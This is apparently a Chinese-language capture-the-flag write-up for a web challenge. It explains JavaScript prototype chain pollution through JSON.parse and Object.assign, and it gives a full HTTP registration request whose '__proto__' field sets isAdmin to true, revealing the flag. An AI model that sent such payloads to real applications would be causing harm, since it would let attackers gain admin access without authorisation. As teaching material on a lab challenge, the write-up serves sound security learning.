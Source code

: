 # Wife_Wife

> JS原型链污染

## 原型链污染

> 在一个应用中,如果攻击者控制并修改了一个对象的原型,那么将可以影响所有和这个对象来自同一个类、父祖类的对象.这种攻击方式就是原型链污染.

> 当代码中使用JSON.parse(data)解析数据时,"\_\_proto\_\_"不是键名,而是类的原型对象prototype,可以用来修改了一个对象的原型.

## Object.assign()

> Object.assign() 方法将所有可枚举(Object.propertyIsEnumerable()返回true)的自有(Object.hasOwnProperty() 返回 true)属性从一个或多个源对象复制到目标对象,返回修改后的对象.如果目标对象与源对象具有相同的key,则目标对象中的属性将被源对象中的属性覆盖,后面的源对象的属性将类似地覆盖前面的源对象的属性.

> Object.assign(target, ...sources), target: 目标对象,接收源对象属性的对象,也是修改后的返回值. sources: 源对象,包含将被合并的属性.


## 分析

> 首页是一个登陆界面,翻看hmtl源码和扫目录没啥发现,于是去注册,注册界面如果是admin账号需要邀请码,发送的数据包里直接把false改成true重发是没用的.注册普通用户后,登录,上面有虚假flag,和一张图片,以为是flag在图片中,最后发现这是错误思路,图片隐写实在misc类型题目中,不会出现在web类型题目.题解在注册时候注册成管理员账号,则直接能看到flag.

## payload

```
POST /register HTTP/1.1
Host: 61.147.171.105:64688
Content-Length: 62
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://61.147.171.105:64688
Referer: http://61.147.171.105:64688/register.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"username":"admin","password":"123456","__proto__":{"isAdmin":true}}
```

## flag

> CatCTF{test_flag_h0w_c@n_I_l1ve_w1th0ut_nilou}